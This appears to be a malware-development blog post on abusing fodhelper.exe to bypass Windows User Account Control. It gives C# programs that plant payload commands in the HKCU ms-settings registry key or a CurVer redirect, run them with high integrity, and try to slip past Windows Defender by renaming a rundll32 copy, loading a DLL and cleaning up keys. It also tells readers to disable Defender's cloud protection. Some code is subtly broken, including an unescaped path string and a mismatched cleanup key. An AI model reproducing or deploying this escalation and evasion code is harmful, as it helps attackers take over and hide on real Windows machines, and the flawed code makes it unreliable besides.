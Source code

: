 ```yaml
---
layout: post
title: Experimenting with the FodHelper UAC bypass
date: 2023-11-29
categories: [Malware Development, Evasion]
tags: [evasion]     
---
```



FodHelper is a Windows binary used to manage optional features. `fodhelper.exe` is vulnerable because it is a high-integrity process that interacts with the `HKEY_CURRENT_USER` registry hive, which we can control. One notable example of malware that uses `fodhelper.exe` to bypass User Account Control (UAC) and execute malicious activities is the TrickBot trojan.

When launched, FodHelper will search for the `(default)` value in the `HKEY_CURRENT_USER\Software\Classes\ms-settings\shell\open\command` registry key. This registry key does not exist by default, so if we create it and add the DelegateExecute property, it will execute our payload in a high-integrity context.

Let's try out a console app that will make `fodhelper.exe` execute our payload, marked as `<PAYLOAD>` 

> All of the projects created in this post are on my GitHub, check them out! Don't forget to turn off`Cloud-Delivered protection` and `Automatic sample submission`.
{: .prompt-info }


```C#
using System.Diagnostics;
using Microsoft.Win32;

// Create the registry key
RegistryKey key = Registry.CurrentUser.CreateSubKey(@"Software\Classes\ms-settings\shell\open\command");

// Set the default value of the key
key.SetValue("", "<PAYLOAD>");

// Create the DelegateExecute property
key.SetValue("DelegateExecute", "", RegistryValueKind.String);

// Create a new process
Process process = new Process();

// Set the process start info
process.StartInfo.FileName = @"C:\Windows\System32\fodhelper.exe";

// Start the process
process.Start();
```

Let's substitute `<PAYLOAD>` for `powershell.exe`, build the code and try it out.

![Image 1](/assets/image1.png)

It seems like Windows Defender doesn't want to have executables in `(default)`. What if we try `powershell` instead of `powershell.exe`?...still doesn't work. Maybe `powershell "Start-Process powershell"`?...nope. If we can't get it to execute any commands, injecting a DLL into FodHelper is the next best thing. 

The easiest way to do this would be to make it execute `rundll32 <DLL_NAME>`. Since I don't think Defender would be too happy with us making FodHelper run a binary from `%windir%\system32`, let's make a copy of `run32dll`. Our payload should now be `C:\temp\luci C:\temp\payload.dll`. Let's apply these revisions to our code

```csharp
using System.Diagnostics;
using Microsoft.Win32;
// The full and improved code in this snippet above can be found on my GitHub
private const string Payload = "C:\temp\luci.exe C:\temp\payload.dll,DllMain";

// Copy run32dll.exe to luci.exe
File.Copy(@"C:\windows\system32\rundll32.exe", @"C:\temp\luci.exe");

// Create the registry key
RegistryKey key = Registry.CurrentUser.CreateSubKey(@"Software\Classes\ms-settings\shell\open\command");

// Set the default value of the key
key.SetValue("", Payload);

// Create the DelegateExecute property
key.SetValue("DelegateExecute", "", RegistryValueKind.String);

// Create a new process
Process process = new Process();

// Set the process start info
process.StartInfo.FileName = @"C:\Windows\System32\fodhelper.exe";

// Start the process
process.Start();
```

Having an evasive payload inside a DLL can be difficult, so let's see if this can be done any other way. What if we can somehow trick Defender into thinking the registry key has been untouched? Let's look it up.

![Image 2](/assets/image2.png)

Upon reading the documentation, I have stumbled upon this:


|CurVer |	Set the (Default) entry of this subkey to the most current version of this ProgID.Note: Unless you have side-by-side application versions, that is, multiple versions installed on the same system, you should avoid using CurVer.|
|--- |---|

***https://learn.microsoft.com/en-us/windows/win32/shell/fa-progids***

Looks fairly promising...let's see how it can be used. Consulting with StackExchange led me to this (post)[https://stackoverflow.com/questions/20974888/how-to-find-componentid-of-wscript-shell]. Finally, this should trick Defender into perceiving the registry untouched:

```csharp  
// Create the registry keys
Registry.SetValue(@"HKEY_CURRENT_USER\Software\Classes\ms-settings\CurVer", "", ".redirect");
Registry.SetValue(@"HKEY_CURRENT_USER\Software\Classes\.redirect\Shell\Open\command", "", <PAYLOAD>);

 // Start the process
Process process = new Process();
process.StartInfo.FileName = @"C:\Windows\System32\fodhelper.exe";
process.Start();

// Cleanup
System.Threading.Thread.Sleep(3000);
Registry.CurrentUser.DeleteSubKeyTree("Software\\Classes\\ms-settings");
Registry.CurrentUser.DeleteSubKeyTree("Software\\Classes\\rekt");

```

And...this got caught by Defender again. So far, it seems like the only way to do this is using a DLL. I will update this post if I find any other method. 

Thanks for reading!
